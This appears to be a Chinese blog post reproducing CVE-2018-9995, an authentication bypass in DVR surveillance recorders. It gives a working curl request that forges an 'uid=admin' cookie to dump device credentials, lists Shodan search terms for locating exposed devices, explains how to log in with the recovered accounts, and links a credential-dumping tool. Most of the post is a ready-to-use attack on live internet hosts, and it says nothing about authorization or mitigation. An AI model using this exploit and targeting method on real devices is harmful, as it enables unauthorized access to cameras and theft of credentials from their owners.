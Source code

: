 ```yaml
---
title: DVR登录绕过漏洞（CVE-2018-9995）
categories:
- CVE_2018_9995
tags:
- 漏洞
updated: 2018-05-23
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。



网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”,如图:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_03.png" />



还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```
:<https://github.com/ezelf/CVE-2018-9995_dvr_credentials>
```

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你

 

 

 

 

 

### 







​
